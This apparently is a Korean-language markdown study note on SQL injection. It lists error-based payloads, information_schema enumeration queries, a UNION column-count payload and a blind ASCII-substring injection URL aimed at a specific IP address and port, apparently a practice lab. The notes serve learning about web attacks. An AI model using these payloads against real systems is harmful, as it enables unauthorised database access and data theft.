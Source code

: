 ```

아무 것도 안나와도 sql 쿼리가 동작했기 때문에 아무 것도 안나온다는 결과가 나온 거다   
![sqli2](sqli2.png)
## Error based SQL Injection
```
' and error_test() -- -
' and db_name() -- -
' AND extractvalue(rand(),concat(0x3a,version())) -- -
' AND updatexml(null, db_name(), null) -- -
1' and 1=(select count(*) from tablenames); -- -
1' and user_name() = 'dbo' -- -
```
![error-based](error_based.png)


![error_version](error_version.png)


## UNION SQL Injection
```
mysql TABLE 리스트
select table_name from information_schema.tables where table_schema=database()

mysql Column 리스트
select column_name from information_schema.columns where table_name='테이블이름'

' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 -- -

```

![1-14_unionsqli](1-14_unionsqli.png)



http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name='users'),1,1))>0) -- &password=123


